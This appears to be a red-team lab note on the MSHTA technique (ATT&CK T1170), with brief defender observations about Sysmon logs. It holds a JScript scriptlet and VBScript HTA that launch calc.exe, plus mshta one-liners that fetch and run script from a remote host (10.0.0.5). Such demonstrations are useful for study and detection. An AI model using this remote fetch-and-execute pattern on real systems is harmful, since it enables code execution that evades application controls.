





# T1170: MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:


```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```


Invoking the scriptlet file hosted remotely:


```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```


## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:



As a defender, look at sysmon logs for mshta establishing network connections:



Also, suspicious commandlines:



## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```



or by navigating to the file itself, launching it and clicking run:




```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```


## References



